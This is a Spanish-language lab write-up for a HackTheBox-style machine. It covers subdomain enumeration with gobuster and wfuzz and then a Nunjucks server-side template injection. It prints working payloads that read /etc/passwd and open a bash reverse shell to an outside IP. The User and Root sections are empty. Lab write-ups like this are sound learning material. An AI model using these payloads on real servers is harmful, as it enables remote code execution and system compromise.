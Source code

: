 ## Summary

Tags: #Linux #HTTP #Capabilities #Nodejs #Nunjucks #Nginx #HTML #ReverShell #Gobuster #Dirbuster #SSTI #BurpSuite #SubDomains #Wfuzz 

- IP -> 10.10.11.122
- Ports -> TCP (22, 80, 443), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> 
    - 80 -> Nginx 1.18.0 Ubuntu 
    - 443 -> Nginx 1.18.0 Ubuntu 

## Launchpad

-  [Launchpad](https://launchpad.net/ubuntu)
-  [Nunjucks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## Recon

```bash 
❯ whatweb ❮http://❮IP❯      # Miramos las tecnologias 

# Agregamos el dominio que encontramos al '/etc/hosts'

❯ openssl s_client -connect ❮dominio.com❯:443   # Miramos los certificados en busqueda de otro dominio 
```

```bash
# Enumerar subdominios 

❯ gobuster vhost --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --url https://nunchucks.com -t 200 -k 

	# append-domain = Enumerar los subdominios
	# vhost = Modo enumeracion VHost Subdominios
	# w = Ruta del diccionario
	# t = Lanzar tareas en paralelo al mismo tiempo
	# k = Para certificados autofirmados para el puerto 443


❯ wfuzz -c --hc=404 --hh=12345 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H “Host: FUZZ.nunchucks.htb” https://nunchucks.htb

	# hc = HideCode 404
	# c = Formato colorido
	# hh = HideCharacters 12345
	# w = Ruta del diccionario
	# FUZZ = Donde va a insertar las palabras el diccionario
	# t = Lanzar tareas en paralelo al mismo tiempo
	# H = Para enumerar el subdominio, utilizamos esta cabecera 'Host: '

# Agregamos el subdominio encontrado en el '/etc/hosts'
```

```bash 
# Ingresamos a la nueva pagina y miramos que lo que colocamos en el input se refleja en la web. Probamos '{{7*7}}' y nos devuelve un '49' por lo que tendriamos un SSTI (Server Site Template Injection) 

# Buscamos esa vulnerabilidad en 'Hacktricks' para 'Nodejs-Nunjucks' y nos muestra los siguientes comandos a ingresar:

❯ {{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
❯ {{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')")()}}

# Procedemos a hacerlo con 'Burpsuite' ya que en la web no nos hace valido el comando por la 'estructura'
```

## User




## Root